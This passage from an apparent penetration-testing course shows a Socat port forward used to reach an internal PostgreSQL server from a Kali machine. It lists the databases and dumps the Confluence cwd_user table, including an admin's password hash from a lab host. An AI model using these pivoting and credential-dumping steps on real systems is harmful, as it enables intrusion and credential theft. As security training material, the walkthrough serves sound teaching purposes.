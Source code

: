 > Listing 10 - Running the Socat port forward command.

The network is now set up like the following diagram:

![[/eb1577c7ae460992abbeee4839ffb4e3-PRAT2_1_3_PortForwardSocat.png]]

Figure 3: Socat in place as our port forwarder

With the Socat process running, we can run **psql** on our Kali machine, specifying that we want to connect to CONFLUENCE01 (**\-h 192.168.50.63**) on port 2345 (**\-p 2345**) with the _postgres_ user account (**\-U postgres**). When prompted, we will enter the password, and once connected, we can run the **\\l** command to list the available databases.

```
kali@kali:~$ psql -h 192.168.50.63 -p 2345 -U postgres
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

> Listing 11 - Connecting to the PGDATABASE01 PostgreSQL service and listing databases using psql, through our port forward.

Success! We've connected to the PostgreSQL database through our port forward. We'll also find that we have access to the _confluence_ database.

Using our new database access, we can continue our enumeration. In the confluence database, let's query the _cwd\_user_ table. This contains the username and password hashes for all Confluence users. We'll connect to the database with the **\\c confluence** command, then run **select \* from cwd\_user;** to review everything in that table.

```
postgres=# \c confluence
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "confluence" as user "postgres".

confluence=# select * from cwd_user;

   id    |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
---------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
  458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC
```